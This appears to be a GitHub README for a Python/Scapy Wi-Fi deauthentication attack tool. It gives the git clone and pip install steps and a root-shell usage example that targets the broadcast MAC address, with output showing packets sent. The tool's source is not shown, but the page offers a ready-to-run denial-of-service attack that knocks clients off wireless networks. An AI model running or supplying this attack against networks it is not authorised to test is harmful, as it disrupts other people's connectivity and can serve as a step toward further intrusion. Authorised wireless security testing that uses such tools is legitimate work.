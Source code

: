 # Wi-Fi-Deauthentication-Attack

## Requirements

Python2.x<html><br></html>
Scapy Library

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack-Tool
cd Wi-Fi-Deauthentication-Attack-Tool
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```

